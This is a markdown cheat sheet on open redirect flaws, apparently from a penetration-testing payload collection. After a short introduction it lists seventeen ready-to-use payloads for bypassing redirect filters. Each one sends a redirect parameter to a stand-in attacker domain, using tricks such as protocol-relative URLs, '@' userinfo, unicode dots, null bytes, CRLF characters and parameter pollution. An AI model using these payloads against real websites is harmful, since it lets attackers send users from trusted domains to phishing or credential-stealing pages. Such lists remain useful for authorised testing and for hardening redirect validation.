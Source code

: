 ## Open Redirect

## Introduction
Open redirection vulnerabilities arise when an application incorporates user-controllable data into the target of a redirection in an unsafe way. An attacker can construct a URL within the application that causes a redirection to an arbitrary external domain

## Where to find
- Sometimes it can be found in login / register / logout pages
- Checking the javascript source code

## How to exploit
1. Try change the domain
```
/?redir=evil.com
```

2. Using a whitelisted domain or keyword
```
/?redir=target.com.evil.com
```

3. Using `//` to bypass `http` blacklisted keyword
```
/?redir=//evil.com
```

4. Using `https:` to bypass `//` blacklisted keyword
```
/?redir=https:evil.com
```

5. Using `\\` to bypass `//` blacklisted keyword
```
/?redir=\\evil.com
```

6. Using `\/\/` to bypass `//` blacklisted keyword
```
/?redir=\/\/evil.com/
/?redir=/\/evil.com/
```

7. Using `%E3%80%82` to bypass `.` blacklisted character
```
/?redir=evil。com
/?redir=evil%E3%80%82com
```

8. Using null byte `%00` to bypass blacklist filter
```
/?redir=//evil%00.com
```

9. Using parameter pollution
```
/?next=target.com&next=evil.com
```

10. Using `@` or `%40` character, browser will redirect to anything after the `@`
```
/?redir=target.com@evil.com
/?redir=target.com%40evil.com
```

11. Creating folder as their domain
```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

12.  Using `?` characted, browser will translate it to `/?`
```
/?redir=target.com?evil.com
```

13. Bypass the filter if it only checks for domain name using `%23`
```
/?redir=target.com%23evil.com
```

14.  Host/Split Unicode Normalization
```
https://evil.c℀.example.com
```

15. Using parsing
```
http://ⓔⓥⓘⓛ.ⓒⓞⓜ
```

16. Using `°` symbol to bypass
```
/?redir=target.com/°evil.com
```

17. Bypass the filter if it only allows yoou to control the path using a nullbyte `%0d` or `%0a`
```
/?redir=/%0d/evil.com
```